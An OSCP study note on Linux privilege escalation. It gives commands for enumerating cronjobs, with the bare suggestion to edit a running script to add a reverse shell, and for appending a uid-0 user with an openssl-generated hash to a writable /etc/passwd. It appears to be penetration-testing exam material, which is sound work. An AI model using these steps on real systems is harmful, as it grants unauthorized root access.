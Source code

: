 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/j-linux-privilege-escalation/5-insecure-file-permissions/"}
---
```


------------
## Abusing Cronjobs
1. Enumerate cronjobs:
```
# Cronjobs for all users
ls -lah /etc/cron*

#User-created cronjobs for the current user
crontab -l

#Running cronjobs:
grep "CRON" /var/log/syslog
cat /var/log/cron.log
```
2. Inspect running script:
```
cat /home/joe/.scripts/user_backups.sh
```
3. Edit script to add reverse shell. Win!

------
## Abusing /etc/passwd
- Historically hashes could be stored alongside user information in /etc/passwd
- If one can edit /etc/passwd a hash can be placed for a user it takes precedence over /etc/shadow, hence arbitrary password and user change
1. Generate password hash:
```
openssl passwd <arbitrarypassword>
```
2. Echo the hash plus user info into /etc/passwd:
```
echo "<username>:<hash>:0:0:root:/root:/bin/bash" >> /etc/passwd
```
3. Switch user to your new user and provide the password:
```
su <newuser>
```
4. Win!

